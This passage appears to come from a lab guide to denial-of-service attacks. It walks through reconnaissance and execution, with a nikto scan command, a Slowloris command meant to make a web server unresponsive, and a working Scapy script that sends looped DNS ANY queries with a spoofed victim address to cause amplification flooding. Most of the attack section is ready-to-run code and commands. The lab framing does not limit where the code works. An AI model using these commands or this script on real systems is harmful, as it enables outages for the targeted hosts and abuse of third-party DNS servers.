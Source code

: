 ### e. Vulnerability Scanning

- **Tool**: Nikto or OpenVAS in Kali.
  ```bash
  nikto -h http://<target_IP>
  ```
- **Goal**: Detect misconfigurations or unpatched software.
- **Weakness Indicators**:
  - Outdated web server versions.
  - Misconfigured DNS/NTP servers allowing amplification.

## 4. Launching the Attack

Once you’ve identified the target’s weaknesses, select the appropriate attack method and execute it in your lab. Here’s a sample workflow:

### Example Scenario: Targeting a Web Server

- **Recon Results**:
  - Nmap: Port 80 open, Apache 2.4.29 (vulnerable to Slowloris).
  - Wireshark: Heavy TCP traffic on port 80.
  - `htop`: Limited CPU/memory on target VM.
- **Chosen Method**: Slowloris (application-layer attack to exploit connection pool).
- **Execution**:
  ```bash
  slowloris -s 500 -p 80 <target_IP>
  ```
- **Monitoring**:
  - On target: `netstat -an | grep ESTABLISHED` to see open connections.
  - On attacker: Watch Slowloris output for connection count.
- **Expected Result**: Target web server becomes unresponsive.

### Example Scenario: Targeting a DNS Server

- **Recon Results**:
  - Nmap: Port 53/UDP open, BIND 9.8 (supports ANY queries).
  - Wireshark: Large DNS responses to ANY queries.
- **Chosen Method**: DNS Amplification (exploits large response size).
- **Execution**:
  ```python
  from scapy.all import *
  target_ip = "<target_IP>"
  dns_server = "<dns_server_IP>"
  packet = IP(src=target_ip, dst=dns_server)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="example.com", qtype="ANY"))
  send(packet, loop=1, verbose=0)
  ```
- **Monitoring**:
  - On target: `tcpdump udp port 53` to see incoming DNS responses.
- **Expected Result**: Target experiences bandwidth saturation.

## 5. Best Practices for Lab Attacks
